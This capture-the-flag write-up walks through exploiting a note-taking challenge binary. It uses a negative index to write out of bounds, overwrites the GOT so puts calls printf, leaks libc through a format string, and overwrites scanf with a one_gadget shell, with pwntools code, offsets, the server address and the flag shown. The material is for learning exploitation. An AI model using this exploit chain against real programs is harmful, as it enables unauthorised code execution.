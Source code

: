 # Note

We were given [this binary](./note) and these files to run it :

 - [Dockerfile](./Dockerfile)
 - [docker-compose.yml](./docker-compose.yml)
 - [docker-entrypoint.sh](./docker-entrypoint.sh)

First things first, we can just run this container and get it's [libc](./libc.so.6) and [ld](./ld-linux-x86-64.so.2). After running `pwninit` we get our [patched binary](./note_patched) using the same libraries as the server.

We can also see that most of the securities are enabled on that binary:

```console
$ checksec --file=./note
[*] '/home/geoffrey/Documents/Notes/CTF/Hack_in/note/note'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

With this out of the way, let's check out what the program does :

![note](./note.png)

We can add notes, view their contents, and exit. Looking at the pseudo C we get with Ghidra, we can see that these notes are written on the bss in this function :

```C
void add(void)
{
  long in_FS_OFFSET;
  uint user_choice;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  getn(&user_choice);
  if (0x10 < (int)user_choice) {
     call_exit(1);
  }
  printf("value: ");
  read(0,notes + (long)(int)user_choice * 0x10,0xf);
  printf("note added on %d successfully!\n",(ulong)user_choice);
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
     __stack_chk_fail();
  }
  return;
}
```

`getn()` is only using `scanf` to get an integer, and since there's no check on wheter `user_choice` is negative, there is an interger underflow in this line:

```C
if (0x10 < (int)user_choice) {
```

This gives us an arbitrary write with this `read()` call:

```C
read(0,notes + (long)(int)user_choice * 0x10,0xf);
```

For example if I create a note with index `-10`, I'll be writing at address `notes - 160` as we can see with GDB:

```console
=== Menu ===
1. Add
2. View
0. Exit
> 1
idx: -10
value: 
```

![underflow example](./underflow_example.png)

Since the binary has Partial RELRO, the got is writable. So this vulnerability immediatly SCREAMS got overwrite. If you don't know what the fuck I'm talking about, [this](https://ir0nstone.gitbook.io/notes/binexp/stack/aslr/plt_and_got) might help you out.

Our problem being, pie and aslr are activated. So if we want to overwrite the got with a one gadget we first need a leak to calculate it's address. I didn't find another vulnerability to get a leak, so at first I thought about bruteforcing which sadly couldn't work. Since I can overwrite the got, maybe if I overwrite some other function's got with `puts` it might leak me something. It didn't 🗿

At that point, not seeing any other options I chose to stop in shame and go do some reverse.

![shame](https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExYTFiajR5em8wbjJpZG8xMWRzNHFyZXQzcHU0OGZwczRjdzA3bm5meCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/vX9WcCiWwUF7G/giphy.gif)

But later on, reinvigorated by a quick flag, I decided to take another look at it. And this time I thought : I tried to overwrite other functions with `puts`, but what about `printf` ? And I saw this line in `view()` (the function letting us view the note's content) :

```C
puts(notes + (ulong)index * 0x10);
```

We can write over `notes`, so if `puts` actually calls `printf` this gets us a format string.

![revelation](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExMjB6N3FxMDM0NWp5b3BtMWI2NDByYzdramFkaHE0ZTloaDg1dGFlNiZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/26ufdipQqU2lhNA4g/giphy.gif)

First thing first, let's check wheter it's feasable using GDB:

![got overwrite](./got_plt_values.png)

Since `puts`'s address isn't resolved until we call it in `view()`, it doesn't point to the libc yet. And as we can see above, we only have to overwrite the least significant byte to `0xf0` to make it point to `printf`'s plt. Let's make it happen with a script:

```python
def add(index:bytes, value:bytes):
    p.sendline(b"1")
    p.recvuntil(b"idx: ")
    p.sendline(index)
    p.recvuntil(b"value: ")
    p.send(value)
    p.recvuntil(b">")

def view(index:bytes):
    p.sendline(b"2")
    p.recvuntil(b"idx: ")
    p.sendline(index)
    data = p.recvuntil(b"===").replace(b"===", b"").strip()
    p.recvuntil(b">")
    return data
```

First we can code these functions to interact with the program, and now we can overwite `puts` got quite simply this way:

```python
add(b"-10", b"\xf0")
```

We know it's `-10` simply by debugging and calculating the offset. For example, `0x55cb0f7f6000` being the address of `notes` and `0x55cb0f7f60a0` the address of `puts`'s got :

```python
>>> 0x55cb0f7f6000-0x55cb0f7f60a0
-160
>>> _/0x10
-10.0
```

As you can see, we now have a format string when viewing our notes :

```console
=== Menu ===
1. Add
2. View
0. Exit
> 1
idx: 0
value: %17$p
note added on 0 successfully!
=== Menu ===
1. Add
2. View
0. Exit
> 2
idx: 0
0x7f95cfe2a1ca
```

By debugging we can find out that the payload `%17$p` leaks us the libc. So we can automate the leak this way :

```python
add(b"0", b"%17$p")
leak = view(b"0")
libc.address = int(leak, 16) - (libc.sym["__libc_start_call_main"] + 122)
```

Now, we need to find a one gadget which constraint's won't be an issue. Took me some time, but I found this one that could be executed during the `scanf` call in the `menu()` function :

```
0xef52b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [[rbp-0x78]] == NULL || [rbp-0x78] == NULL || [rbp-0x78] is a valid envp
```

And finally, we just have to overwrite `scanf`'s got with that one gadget:

```python
one_gadget = p64(libc.address + 0xef52b)
add(b"-7", b"A"*8+one_gadget[:7])
```

Putting it all together in [this script](./solve.py) we get the flag:

```console
$ ./solve.py -r 146.148.28.103 32866
$ cat flag.txt
HNx04{83b55ee77f37cac314fe45d1f45e33f4}
```
